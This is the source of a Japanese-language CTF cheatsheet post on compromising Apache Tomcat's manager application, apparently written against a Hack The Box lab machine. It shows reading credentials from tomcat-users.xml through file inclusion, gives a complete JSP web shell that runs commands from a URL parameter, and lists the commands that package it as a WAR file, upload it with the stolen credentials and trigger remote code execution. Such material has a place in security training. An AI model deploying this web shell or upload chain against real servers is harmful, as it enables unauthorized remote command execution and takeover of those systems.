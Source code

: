 ```yaml
---
layout: post
title: "tomcat"
published : true
tags: CTF Common cheatsheet tomcat
---
```

## Tomcatマネージャーアプリケーションの発見
tcp/8080でオープンしていることが多い

## 資格情報の取得
LFIなどを利用して"tomcat-users.xml"を探す。ファイルパスは一例
```sh
/usr/share/tomcat9/etc/tomcat-users.xml

(SNIP...)
<role rolename="admin-gui"/>
<role rolename="manager-script"/>
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
(SNIP...)
```
## web shellによるRCE
### Create file. [index.jsp]
```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
    String s = null;
    try {
      Process p = Runtime.getRuntime().exec(cmd,null,null);
      BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
      while((s = sI.readLine()) != null) {
        output += s+"</br>";
      }
    }  catch(IOException e) {   e.printStackTrace();}
   }
%>
<pre><%=output %></pre>
```
   
### warの生成
```sh
$ mkdir webshell
$ cp index.jsp webshell
$ cd webshell
$ jar -cvf ../webshell.war *
webshell.war is created
```
### Upload
```sh
curl --upload-file webshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/webshell"
```

### RCE
```sh
http://megahosting.htb:8080/webshell/index.jsp?cmd=id
```
